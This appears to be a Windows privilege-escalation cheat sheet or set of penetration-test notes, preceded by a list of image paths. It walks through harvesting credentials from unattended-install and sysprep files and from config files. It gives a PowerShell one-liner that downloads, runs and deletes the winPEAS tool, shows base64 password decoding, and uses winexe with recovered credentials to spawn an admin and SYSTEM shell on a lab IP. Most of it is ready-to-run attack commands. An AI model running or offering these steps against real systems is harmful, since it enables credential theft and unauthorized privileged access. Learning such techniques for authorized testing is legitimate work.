






manually
Unattended files are most likely found in one of the following directories:
◇ C:\Windows\Panther\
◇ C:\Windows\Panther\Unattend\
◇ C:\Windows\System32\
◇ C:\Windows\System32\sysprep\
Search the directories for the following files:
→ Unattend.xml
→ Unattended.xml
→ Unattend.txt
→ sysprep.xml
→ sysprep.inf
→ autounattend.txt
→ autounattend.xml
→ Groups.xml
Search with WinPEAS: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/winPEAS/winPEASexe/binaries/Release/winPEASany.exe
PS> (new-object System.Net.WebClient).DownloadFile("https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/winPEAS/winPEASexe/binaries/Release/winPEASany.exe", "$env:userprofile\desktop\winPEASany.exe");Invoke-Expression "$env:userprofile\desktop\winPEASany.exe quiet cmd filesinfo";Remove-Item -Path "$env:userprofile\desktop\winPEASany.exe";

If we look in the source code of WinPEAS, the list of file name patterns it searches for, is quite long... Sometime anyway is easier to search for files
Search for Unattended Installs
To search these files we can use the cmdlet Get-ChildItem(gci)
• powershell: search only in the folders more promising
PS> gci -Path C:\Windows\Panther,C:\Windows\Panther\Unattend,C:\Windows\System32,C:\Windows\System32\sysprep -Include *sysprep.inf,*sysprep.xml,*sysprep.txt,*unattended.xml,*unattend.xml,*unattend.txt -File -Recurse -EA SilentlyContinue

• powershell: search in all the C:\ drive
PS> gci -Path C:\ -Include *sysprep.inf,*sysprep.xml,*sysprep.txt,*unattended.xml,*unattend.xml,*unattend.txt,*autounattend.txt,*autounattend.xml,*Groups.xml -File -Recurse -EA SilentlyContinue
Note: Passwords in these files may be base64 encoded

Search for general Configuration files
The following commands are not advised to be run in the root directory. It is better run them in directories that we might think are important, such:
◇ current user home directory (cd %userprofile%)
◇ temporary directory (cd %temp%)
◇ directory of a suspicious program
◇ ...
• search for files with “pass” in the name, or ending in “.config”
C:\> cd %userprofile% & dir /s *pass* == *.config & cd %temp% & dir /s *pass* == *.config
• Recursively search that contain the word “password” and also end in either .xml, .ini or .txt:
C:\> cd %userprofile% & findstr /si password *.xml *.ini *.txt & cd %temp% & findstr /si password *.xml *.ini *.txt
------------------------------------------------------------------------------------------------------------------
Print content of a file
C:\> type <file>

Decode base64
root@kali:/# echo "cGFzc3dvcmQxMjM=" | base64 -d

Winexe: spawn a shell with credentials via SMB(port 445)
winexe command to spawn a shell using these credentials:
root@kali:/# winexe -U 'admin%password123' //192.168.147.210 cmd.exe
C:\> net localgroup administrators #to check if the user is a local administrator

since this user is an an admin, we can also have a SYSTEM shell with these credentials
root@kali:/# winexe -U 'admin%password123' --system //192.168.147.210 cmd.exe
